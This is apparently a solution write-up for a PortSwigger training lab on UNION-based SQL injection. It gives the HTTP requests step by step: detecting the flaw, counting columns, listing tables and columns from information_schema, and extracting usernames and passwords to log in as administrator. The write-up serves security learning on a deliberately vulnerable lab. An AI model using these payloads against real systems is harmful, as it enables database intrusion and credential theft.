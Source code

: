 # [Lab: SQL injection attack, listing the database contents on non-Oracle databases](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle)

## Lab

This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the `administrator` user.

## Solutions

1. Detect SQLi:

    - `GET /filter?category=' HTTP/1.1`

    ```sql
    HTTP/1.1 500 Internal Server Error
    ```

2. Determining the number of columns using `ORDER BY`:
    - positions: `GET /filter?category='+ORDER+BY+§1§--+ HTTP/1.1`
    - payloads: 1 -> 10
    - result: 2 columns
    - [Note the space after the double dash] at MySQL database

3. Finding a column containing text:

    ```sql
    GET /filter?category='UNION+SELECT+'s','s'--+ HTTP/1.1`
    ```

    - => both columns contain text
4. get all table names:

    - <https://portswigger.net/web-security/sql-injection/cheat-sheet>
    - <https://www.mssqltips.com/sqlservertutorial/196/information-schema-tables/>  

    ```sql
    GET /filter?category='UNION+SELECT+NULL,TABLE_NAME+FROM+information_schema.tables-- HTTP/1.1`
    ```

    - interesting table : `users_eyresz`

5. get the names of the columns of the table:

    - <https://portswigger.net/web-security/sql-injection/cheat-sheet>
    - <https://www.mssqltips.com/sqlservertutorial/183/information-schema-columns/>

    ```sql
    GET /filter?category='UNION+SELECT+NULL,COLUMN_NAME+FROM+information_schema.columns+WHERE+table_name+%3d+'users_eyresz'-- HTTP/1.1`
    ```

    - get 2 column names `username_wrogmc` and `password_fvnqui`

6. Exploit:

    ```http
    GET /filter?category='UNION+SELECT+username_wrogmc,password_fvnqui+FROM+users_eyresz-- HTTP/1.1`
    ```

7. login to admin account => Lab Solved
